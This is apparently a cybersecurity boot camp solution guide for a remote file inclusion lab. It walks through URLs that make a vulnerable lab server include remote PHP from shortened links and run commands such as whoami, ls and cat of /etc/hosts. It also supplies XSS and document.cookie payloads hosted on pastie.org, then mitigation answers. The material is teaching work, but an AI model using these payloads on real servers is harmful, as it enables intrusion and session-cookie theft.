 ## Solution Guide: Remote File Inclusion Activity 

In this activity, you were tasked with first referencing a non-malicious URL to determine how it modifies the webpage. You were then tasked with referencing a remote malicious script contained within a webpage. You then modified the URL to run command-line commands with this malicious script. As a bonus, you were challenged with trying to combine RFI and XSS with a single exploit.

---

1. Test the intended use of the web application.

    - Select `File1.php`, and note the following:

      - The URL changes to the following: <http://192.168.13.25/vulnerabilities/fi/?page=file1.php>.

      - The content on the webpage is displayed as follows:
      
              Hello admin
              Your IP address is: 192.168.13.1
          
    - Select the other links (`File2.php` and `File3.php`) and note their URL and webpage changes.

2. Test an unintended function of the application by referencing a remote webpage.

    - Note that you just tested how the application is designed to access a file on the Replicants web server.

    - Let's test what will happen if the URL is modified to reference an external or remote webpage.
    
    - Change the parameter of the URL to reference an external URL (<http://www.example.com>) instead of one of the files (`File1.php`). For example:
    
      - <http://192.168.13.25/vulnerabilities/fi/?page=http://www.example.com>
      
    - Note how the example.com webpage has been added to the top of the Replicants website.

      - Test other webpages by replacing example.com with other URLs.
        
    - Note that this illustrates that the webpage is designed to allow external references.

    - Let's try something a little more malicious by referencing a remote script instead of a webpage!
    
3. Test RFI.

    - We just saw how this webpage allows referencing external sources such as webpages. 

      - Let's see what will happen if we reference a malicious external script instead of a webpage.
      
    - Using your browser in your web lab, view the following webpage:

      - <https://tinyurl.com/y498epmz>
      
    - Note how this looks exactly like the script that was used in the LFI activity.

      - But this script is hosted remotely!
      
    - Change the URL to reference this webpage, instead of example.com: <http://192.168.13.25/vulnerabilities/fi/?page=https://tinyurl.com/y498epmz>.

    - Note that this will not do anything; similar to the remote inclusion activity, we have to provide the script with a command-line command!

    - Let's start with the `whoami` command.

      - To add this command into the URL, add `cmd=whoami&` between `?` and `page`, as follows:
      
        - `http://192.168.13.25/vulnerabilities/fi/?cmd=whoami&page=https://tinyurl.com/y498epmz`
      
    - Run the command and note the results on the top left of the page.

    - Now see if you can modify the command to run the following:

      - `ls`
    
      - `ps`
    
      - cat the `/etc/hosts` file

    - **Solution:** Here are the commands to run:

        - `ls`:  `http://192.168.13.25/vulnerabilities/fi/?cmd=ls&page=https://tinyurl.com/y498epmz`

        - `ps`: `http://192.168.13.25/vulnerabilities/fi/?cmd=ps&page=https://tinyurl.com/y498epmz`

        - `cat the /etc/hosts file`: `http://192.168.13.25/vulnerabilities/fi/?cmd=cat%20../../../../../etc/hosts&page=https://tinyurl.com/y498epmz`
        
4. **Bonus:** Combine RFI and cross-site scripting.

    - So far you have been able to run **RFI** by running remote scripts against a vulnerable web server.

    - These scripts have referenced an external webpage that contained a malicious script.

    - Let's see what would happen if you referenced a script that contained a **cross-site scripting** payload.

    - Using your browser again, look at the following webpage: 

      - <https://tinyurl.com/yxk853vy>

      - Note how this page contains a script that includes XSS payloads we developed previously.

        - `<script>alert("Hey you have been hacked")</script>`

    - Note that the exception is that the XSS payload is embedded within a PHP script.

    - Change the URL to reference this webpage, to see if you can get the XSS payload to execute the pop-up!

    - **Solution:** The URL to get the XSS payload to execute:

      - `http://192.168.13.25/vulnerabilities/fi/?page=https://tinyurl.com/yxk853vy`

5. **Super Bonus:** Develop your own malicious script to capture cookies with a RFI exploit.

    - So far you have referenced pre-built webpages that contained malicious PHP script.

    - Let's see if you can write your own malicious PHP script webpage.

      - When your webpage is referenced, a script should run and pop up with the user's session cookies.

    - **Hint:** Look at the format of the script from Step 4, and modify this script to pop up with the session cookies: 

        `<script>alert("Hey you have been hacked")</script>`

    - **Hint:** To build a webpage with the script, do the following:

        - Add your script on the following webpage: <http://pastie.org/>.
      
        - Select Save Paste and then Raw on the top right to display the raw code.
      
        - This will create a unique URL with your code.
          
   - Reference the URL of this raw code from the same vulnerable webpage.

      - Run your URL and see if you can successfully get the session cookies to appear on a pop-up!

    - **Solution**

      - The script to pop up the session cookie will resemble the following:

              <?php 
              $html = <<<EOT

              <script>alert(document.cookie)</script>

                EOT;

                echo $html;
                ?> 
                
      - Save the script in <pastie.org>, then select Save Paste > Raw.

        - A new URL will be created. For example:

          - `http://pastie.org/p/6MA1u2AP1qzKzDaxXi8Zwv/raw`

          - Note that your URL will be different.
          
      - Reference the example URL with the following URL:

        - `http://192.168.13.25/vulnerabilities/fi/?page=http://pastie.org/p/6MA1u2AP1qzKzDaxXi8Zwv/raw`
        
      - A pop-up will display your session cookies! 

6. Answer the following mitigation strategy questions:

    - Describe to your management how a malicious user might take advantage of the vulnerabilities that you just exploited. Be sure to include the potential impact.

      - There are many acceptable answers; if a web application is vulnerable to remote file injection, a variety of malicious payloads can be exploited. The impact can include the following:

          - Display of confidential data, such as user accounts, password hashes, service accounts, network information, or system processes.
        
          - Deletion or modification of the preceding confidential data, which can lead to reputation issues and system outages.

    - Describe in plain language to your manager how you can mitigate the vulnerabilities you just exploited.

      - There are many acceptable answers, all involving input validation. Options can include the following:
      
          - Limit access to remote files in your web application.
      
          - Use server-side validation to only allow certain files to be accessed, if the file has to be remote.
      
          - DO NOT use arbitrary input data in a literal file inclusion request when developing an application.
      
            - Use an allow list of acceptable files and file types.

---

© 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved. 
